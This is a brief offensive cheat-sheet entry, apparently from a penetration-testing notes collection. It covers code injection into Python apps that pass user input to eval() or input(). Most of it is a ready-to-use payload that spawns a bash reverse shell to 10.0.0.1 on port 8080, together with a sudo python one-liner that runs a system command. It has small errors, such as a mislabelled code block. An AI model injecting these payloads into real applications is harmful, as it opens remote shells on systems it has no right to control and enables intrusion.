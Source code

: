# Python Input Field

If they use `eval()` or `input`, you can use this to execute shellcode through python os.

```abap
__import__('os').system('bash -i >& /dev/tcp/10.0.0.1/8080 0>&1')#
sudo python -c "os.system('id')" # this doesn't work for input fields but is useful
```

[Hacking Python Applications](https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1)